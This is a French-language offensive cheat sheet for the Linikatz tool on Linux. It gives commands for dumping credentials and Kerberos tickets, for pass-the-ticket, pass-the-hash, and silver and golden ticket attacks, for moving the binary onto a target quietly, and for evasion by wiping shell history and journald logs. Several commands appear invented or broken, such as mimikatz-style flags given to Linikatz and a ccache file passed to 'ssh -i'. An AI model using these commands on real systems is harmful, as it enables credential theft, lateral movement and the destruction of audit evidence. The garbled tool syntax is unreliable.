

Ce document détaille l'utilisation de **Linikatz** pour l'extraction de credentials et les attaques **Kerberos** sur des systèmes Linux, s'inscrivant dans une stratégie de **Post-Exploitation** et de **Lateral Movement**.



## Prérequis et Installation

### Prérequis système
La compilation et l'exécution de **Linikatz** nécessitent les dépendances de développement standards. Assurez-vous que les bibliothèques de développement **Kerberos** sont présentes sur le système cible ou votre machine de build.

```bash
# Debian/Ubuntu
sudo apt-get update && sudo apt-get install -y build-essential libkrb5-dev

# RHEL/CentOS
sudo yum groupinstall "Development Tools"
sudo yum install krb5-devel
```

### Gestion des privilèges
> [!danger] Privilèges requis
> **Linikatz** nécessite un accès root pour interagir avec la mémoire système (`/proc/kcore` ou via `ptrace`), lire les fichiers sensibles comme `/etc/shadow` et accéder aux tickets Kerberos stockés dans les répertoires temporaires des utilisateurs.

### Analyse des risques de stabilité système
> [!warning] Stabilité
> Le dumping mémoire via des outils comme **Linikatz** peut provoquer des instabilités sur des systèmes fortement chargés ou des kernels spécifiques. Testez toujours l'outil dans un environnement contrôlé avant une exécution sur une cible critique.

### Méthodes de transfert de fichiers
Pour éviter de laisser des traces de compilation (footprint) sur la cible, privilégiez le transfert du binaire déjà compilé.

```bash
# Via SCP
scp linikatz user@target:/tmp/

# Via Base64 (si seul un shell interactif est disponible)
# Sur votre machine :
base64 linikatz > linikatz.b64
# Sur la cible :
echo "<contenu_base64>" | base64 -d > /tmp/linikatz
chmod +x /tmp/linikatz
```

### Installation
```bash
git clone https://github.com/linikatz/linikatz.git
cd linikatz
make
```

### Vérification
```bash
./linikatz -h
```

> [!warning] Risque de footprint
> La compilation de binaires directement sur la cible laisse des traces sur le disque. Privilégiez le transfert de binaires compilés via **scp** ou **base64** si l'environnement le permet.

## Extraction des Credentials Linux

L'outil permet d'interroger les sessions actives et les fichiers de configuration système.

### Commandes d'extraction
```bash
./linikatz -users
./linikatz -dump
./linikatz -ssh
./linikatz -shadow
./linikatz -sudo
./linikatz -cron
```

> [!note] Analyse des risques
> La modification de `/etc/sudoers` ou `/etc/shadow` peut corrompre le système cible si les permissions ou la syntaxe sont altérées.

## Dumping de Tickets Kerberos

L'exploitation des tickets **Kerberos** permet de maintenir un accès ou de se déplacer latéralement dans un environnement **Active Directory**. Ces techniques sont liées aux concepts de **Kerberos Attacks** et **Impacket Suite Usage**.

### Manipulation des tickets
```bash
./linikatz -kerberos
./linikatz -kerberos-dump
```

### Pass-the-Ticket (PTT)
```bash
export KRB5CCNAME=/tmp/krb5cc_0
./linikatz -kerberos-ptt /tmp/krb5cc_0

python3 /opt/impacket/examples/smbclient.py -k -no-pass -keytab /tmp/krb5cc_0 DOMAIN.LOCAL

ssh -o GSSAPIAuthentication=yes -o GSSAPIDelegateCredentials=yes -i /tmp/krb5cc_0 user@target.domain.com
```

> [!warning] Persistance
> L'utilisation de tickets **Kerberos** est limitée par la durée de vie du **TGT** ou **TGS**.

## Attaques Avancées avec Linikatz

Ces méthodes facilitent le **Lateral Movement** en utilisant des hashs **NTLMv2** ou des tickets forgés.

### Pass-the-Hash (PTH)
```bash
./linikatz -pth 'Administrator:NTLM_HASH' smb://target.domain.com
./linikatz -pth 'user:NTLM_HASH' ssh://target.domain.com
```

### Silver Ticket Attack
```bash
./linikatz -silver /user:service_account /domain:DOMAIN.LOCAL /target:server /service:cifs /rc4:NTLM_HASH /ptt
smbclient -k -L //target.domain.com/
```

### Golden Ticket Attack
```bash
./linikatz -golden /user:Administrator /domain:DOMAIN.LOCAL /krbtgt:NTLM_HASH /sid:S-1-5-21-XXXX /ptt
dir \\target\c$
```

## Détection et Évasion

> [!danger] Risque de détection
> L'utilisation d'outils de dumping mémoire est hautement détectable par les solutions EDR et les outils de monitoring système.

### Techniques d'évasion
```bash
unset HISTFILE
journalctl --vacuum-time=1s
echo 'unset HISTFILE' >> ~/.bashrc
rm -f /tmp/krb5cc_0
```

## Contre-Mesures

Le durcissement du système limite l'efficacité des outils de post-exploitation comme **Linikatz**.

| Mesure | Action |
| :--- | :--- |
| **Sudo** | `echo 'Defaults timestamp_timeout=0' >> /etc/sudoers` |
| **SSH** | `journalctl -u sshd \| grep "GSSAPI"` |
| **Kerberos** | `export KRB5CCNAME=KEYRING` |
| **Permissions** | `chmod 600 /etc/shadow /etc/krb5.keytab` |
| **Authentification** | `authselect enable-feature with-smartcard` |

Ces pratiques réduisent la surface d'attaque liée à l'élévation de privilèges (**Linux Privilege Escalation**).